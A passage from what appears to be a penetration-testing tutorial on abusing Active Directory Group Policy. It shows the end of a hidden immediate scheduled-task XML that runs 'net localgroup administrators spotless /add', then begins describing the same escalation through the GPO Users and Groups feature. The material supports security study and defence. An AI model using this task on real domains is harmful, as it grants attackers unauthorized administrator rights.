 ```markup
                        <LogonType>S4U</LogonType>
                    </Principal>
                </Principals>
                <Settings>
                    <IdleSettings>
                        <Duration>PT10M</Duration>
                        <WaitTimeout>PT1H</WaitTimeout>
                        <StopOnIdleEnd>true</StopOnIdleEnd>
                        <RestartOnIdle>false</RestartOnIdle>
                    </IdleSettings>
                    <MultipleInstancesPolicy>IgnoreNew</MultipleInstancesPolicy>
                    <DisallowStartIfOnBatteries>false</DisallowStartIfOnBatteries>
                    <StopIfGoingOnBatteries>true</StopIfGoingOnBatteries>
                    <AllowHardTerminate>false</AllowHardTerminate>
                    <StartWhenAvailable>true</StartWhenAvailable>
                    <AllowStartOnDemand>false</AllowStartOnDemand>
                    <Enabled>true</Enabled>
                    <Hidden>true</Hidden>
                    <ExecutionTimeLimit>PT0S</ExecutionTimeLimit>
                    <Priority>7</Priority>
                    <DeleteExpiredTaskAfter>PT0S</DeleteExpiredTaskAfter>
                    <RestartOnFailure>
                        <Interval>PT15M</Interval>
                        <Count>3</Count>
                    </RestartOnFailure>
                </Settings>
                <Actions Context="Author">
                    <Exec>
                        <Command>cmd</Command>
                        <Arguments>/c net localgroup administrators spotless /add</Arguments>
                    </Exec>
                </Actions>
                <Triggers>
                    <TimeTrigger>
                        <StartBoundary>%LocalTimeXmlEx%</StartBoundary>
                        <EndBoundary>%LocalTimeXmlEx%</EndBoundary>
                        <Enabled>true</Enabled>
                    </TimeTrigger>
                </Triggers>
            </Task>
        </Properties>
    </ImmediateTaskV2>
</ScheduledTasks>
```
{% endcode %}

### Users and Groups

The same privilege escalation could be achieved by abusing the GPO Users and Groups feature. Note in the below file, line 6 where the user `spotless` is added to the local `administrators` group - we could change the user to something else, add another one or even add the user to another group/multiple groups since we can amend the policy configuration file in the shown location due to the GPO delegation assigned to our user `spotless`:
